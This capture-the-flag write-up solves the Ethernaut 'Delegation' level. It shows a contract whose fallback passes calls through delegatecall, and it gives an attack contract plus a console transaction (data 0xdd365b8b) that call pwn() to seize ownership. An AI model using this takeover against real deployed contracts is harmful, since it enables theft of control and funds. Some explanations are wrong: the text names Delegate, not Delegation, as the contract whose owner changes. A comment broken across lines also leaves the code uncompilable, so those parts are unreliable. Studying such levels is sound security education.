 # Delegation

Sixth Challenge description is as follows:

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

- Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

Code:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

### Resolution

The goal of this challenge is to claim ownership of the `Delegate` contract. We have some clues from Ethernaut about `delegatecall` and `fallback` methods as well as method ids.

With this information, we can see that the `Delegation` contract has a `fallback` method defined. This method is executed if none of the other functions match the function identifier or no data was provided with the function call.

In this case, if there's no method id that matches with the `Delegation` contract, it will delegate the call to the owner.

So what we could do is to send a transaction with the encoded method id of `pwn()` so the contract will delegate the call via `fallback()` method to the `Delegate` contract and execute the `pwn()` function that will set the us as owner (msg.sender)

The tricky part here is to translate the signature method "pwn()" to the bytecode so the evm can understand it when checking for the signature in the `Delegate` contract.

For that, we are going to just use the Solidity `abi.encodeWithSignature` method in a contract. And heck, if we are deploying a contract we might as well try to hack this one via a contract:

Let's try it!
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

contract AttackDelegate {
    
    address private delegateAddr = {CONTRACT_DELEGATE_ADDRESS};

    // This function gets the encoded signature and makes a low level call to the delegate 
contract with the bytecode signature -> it won't match to any signature on the contract, so 
 will
execute fallback() method, and this one will delegate the call to another contract that will match to the pwn() signature!

    function takeOwnership() public {
         bytes memory encodedCall = abi.encodeWithSignature("pwn()");
         delegateAddr.call(encodedCall);             
    }

    // Another options is to just get the pwn() encoded string, and use it in a separate transaction from the console.
    function getEncodedCall() public pure returns (bytes memory) {
        return abi.encodeWithSignature("pwn()");
        
    }
}
```

```
// Alternative solution: Send a tx using the provided api from console:
// the data field is taken from getEncodeCall() 
sendTransaction({from: "{YOUR_WALLET_ADDRESS}", to: "{CONTRACT_INSTANCE_ADDRESS}", data: "0xdd365b8b"})
```


And that's it! If we check the ownership on the Delegate contract should have changed! 💥 

## License

[MIT](https://choosealicense.com/licenses/mit/)